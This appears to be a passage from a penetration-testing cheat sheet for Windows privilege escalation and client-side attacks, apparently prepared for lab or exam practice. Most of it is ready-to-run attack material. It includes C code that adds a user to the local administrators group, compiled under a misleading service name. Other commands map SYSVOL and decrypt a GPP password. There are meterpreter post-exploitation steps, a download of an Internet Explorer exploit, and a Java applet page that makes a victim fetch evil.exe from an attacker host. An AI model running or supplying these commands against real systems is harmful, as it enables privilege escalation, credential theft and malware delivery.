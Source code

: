 -   Compile a custom add user command in windows using C

      ```
      root@kali:~# cat useradd.c
      #include <stdlib.h> /* system, NULL, EXIT_FAILURE */
      int main ()
      {
      int i;
      i=system ("net localgroup administrators low /add");
      return 0;
      }
      ```

      `i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c`

-   Group Policy Preferences (GPP)
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share

        `net use z:\\dc01\SYSVOL`

    -   Find the GPP file: Groups.xml

        `dir /s Groups.xml`

    -   Review the contents for passwords

        `type Groups.xml`

    -   Decrypt using GPP Decrypt

        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`

-   Find and display the proof.txt or flag.txt - get the loot!

    `#meterpreter  >     run  post/windows/gather/win_privs`
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`


Client, Web and Password Attacks
==============================================================================================================================

-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------

    -   MS12-037- Internet Explorer 8 Fixed Col Span ID
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>
        service apache2 start

    -   JAVA Signed Jar client side attack
        echo '<applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"><param name="1"
        value="http://$ip:80/evil.exe"></applet>' >
        /var/www/html/java.html
        User must hit run on the popup that occurs.
